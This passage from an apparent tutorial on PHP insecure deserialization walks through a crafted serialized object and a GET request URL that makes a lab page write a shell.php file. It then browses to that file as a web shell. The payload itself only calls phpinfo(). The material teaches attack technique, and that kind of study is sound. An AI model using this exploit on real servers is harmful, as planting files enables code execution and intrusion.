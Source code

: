 The final section is what we specify for our parameters within our magical constructor function.
```
s:4:"file" -> specifies our first parameter $this->file
s:9:"shell.php" -> specifies the value that is set within $this->file, which in this case is shell.php
s:4:"data" -> specifies our second parameter $this->data
s:19:"<?php phpinfo(); ?>" -> specifies the value that is set within $this->data, which is our phpinfo() as it is a quick way to see if we can execute on commands on the server
```
**It is important to remember the string lengths such as s:19 when writing content into such fields as being off will either prevent the file from being made or from the contents being written to said file. Accuracy is key!**
If we were to unserialize our string and output the contents via a var_dump we would get a prettified version as shown in the image below.
![VARDUMP](/images/insecure_deserialization/var_dump.png "Var Dump")

As we are using a [GET](https://www.w3schools.com/tags/ref_httpmethods.asp) request, we can now pass our serialized string into our browser URL and submit our payload as follows:
```
http://myWebServer/OOP/deserialization_attack.php?data=O:6:"attack":3:{s:4:"file";s:9:"shell.php";s:4:"data";s:19:"<?php phpinfo(); ?>";}
```

If successful we can check our server either by traversing the file path on the actual server and seeing the contents.

![File](/images/insecure_deserialization/file.png "shell.php file")

Opening the file we can then see our file will have written the phpinfo(); within.

![payload](/images/insecure_deserialization/payload.png "shell.php contents")

Finally, the added caveat to this example is that, because we are uploading our content can we traverse to it? 
```
http://myWebServer/OOP/shell.php
```
Using our web browser and the following URL we should see an output below.
![webshell](/images/insecure_deserialization/web_shell.png "web shell")
